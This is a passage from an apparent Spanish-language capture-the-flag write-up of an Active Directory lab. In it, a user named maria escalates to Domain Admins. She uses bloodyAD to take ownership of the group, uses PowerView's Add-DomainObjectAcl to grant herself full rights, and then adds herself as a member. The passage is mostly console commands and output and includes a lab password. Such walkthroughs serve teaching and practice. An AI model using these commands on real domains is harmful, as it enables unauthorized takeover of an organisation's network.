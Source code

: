 Ahora con `bloodyAD` podemos cambiar el propietario del grupo `Domain Admins`
```console
*Evil-WinRM* PS C:\Users\maria\Documents> .\bloodyAD --host 127.0.0.1 -d 'object.local' -u 'maria' -p 'W3llcr4ft3d_4cls' set owner 'Domain Admins' 'maria'
bloodyAD.exe : unicrypto\backends\cryptography\RC4.py:13: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
    + CategoryInfo          : NotSpecified: (unicrypto\backe...dule in 48.0.0.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[+] Old owner S-1-5-21-4088429403-1159899800-2753317549-512 is now replaced by maria on Domain Admins
```

Ahora podemos terminar el ataque con `PowerView.ps1`

Como antes podemos importar las funciones de `PowerView.ps1`
```console
*Evil-WinRM* PS C:\Users\maria\Documents> Import-Module .\PowerView.ps1
```

Y añadir a `maria` todos los permisos sobre el grupo (puede porque ahora somos propietarios del grupo `Domain Admins`)
```console
*Evil-WinRM* PS C:\Users\maria\Documents> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
```

Ahora podemos agregarnos nosotros mismos al grupo.
```console
*Evil-WinRM* PS C:\Users\maria\Documents> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

Y vemos que ha funcionado.
```console
*Evil-WinRM* PS C:\Users\maria\Documents> net user maria
User name                    maria
Full Name                    maria garcia
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/21/2021 9:16:32 PM
Password expires             Never
Password changeable          10/22/2021 9:16:32 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 C:\\Windows\\System32\\spool\\drivers\\color\\test.ps1
User profile
Home directory
Last logon                   9/1/2024 12:23:49 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```
